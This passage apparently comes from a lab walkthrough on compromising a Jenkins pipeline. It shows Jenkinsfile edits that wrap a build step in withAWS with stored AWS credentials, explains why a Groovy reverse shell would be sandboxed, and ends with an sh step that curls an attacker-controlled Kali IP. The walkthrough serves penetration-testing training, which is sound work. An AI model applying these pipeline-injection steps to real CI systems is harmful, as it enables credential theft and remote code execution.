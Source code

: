 ```bash
      steps {
        withAWS(region: 'us-east-1', credentials: 'aws_key') {
          echo 'Building..'
        }
      }
    }
  }
}
```
- It's important to note that the withAWS function is not standard. Jenkins heavily relies on plugins to expand functionality. The withAWS function is a feature of the [AWS Steps plugin](https://plugins.jenkins.io/pipeline-aws/). While the AWS Steps plugin is popular, it's not included on every Jenkins install. However, since we know that this pipeline has already been using it, we can assume that it's installed.
- Now when the echo runs, it will execute with the AWS credentials. Let's edit this to make it more useful. We'll start by adding a **script** block. While this isn't necessary, it allows us to expand the pipeline with more features (like checking which operating system is in use).
```bash
pipeline {
  agent any
  stages {
    stage('Build') {
      steps {
        withAWS(region: 'us-east-1', credentials: 'aws_key') {
          script {
            echo 'Building..'
          }
        }
      }
    }
  }
}
```
- Because Groovy can be used in this script section, our natural thought process might be to write the reverse shell in Groovy.
- While Groovy can be used in this script section of the Jenkinsfile, it will execute the Groovy part of the script in a sandbox with very [limited access to internal APIs](https://www.jenkins.io/doc/book/managing/script-approval/). This means that we might be able to create new variables, but we won't be able to access internal APIs, which effectively prevents us from obtaining a shell. An administrator of Jenkins can approve scripts or enable auto-approval. With the information we have, there is no way of knowing if a Groovy script will execute, so it's best to avoid using a Groovy script as a reverse shell.
- Instead, we can rely on other plugins to execute system commands. One plugin, called [Nodes and Processes](https://plugins.jenkins.io/workflow-durable-task-step/), allows developers to execute shell commands directly on the builder with the use of the sh step. While Nodes and Processes is a plugin, it is developed by Jenkins and is one of the most popular plugins installed on Jenkins. In addition to executing system commands, it also enables basic functionality, such as changing directories using dir. We can assume with high certainty that a Jenkins server has it installed.
- Let's start by executing something fairly simple (like a curl) back to our Kali machine. We'll have to use the cloud Kali IP because our local machine likely does not have a public IP. This will let us more accurately determine if the script actually executed.
```bash
pipeline {
  agent any
  stages {
    stage('Build') {
      steps {
        withAWS(region: 'us-east-1', credentials: 'aws_key') {
          script {
            sh 'curl http://192.88.99.76/' # Cloud kali ip given by the lab
          }
        }
      }
    }
```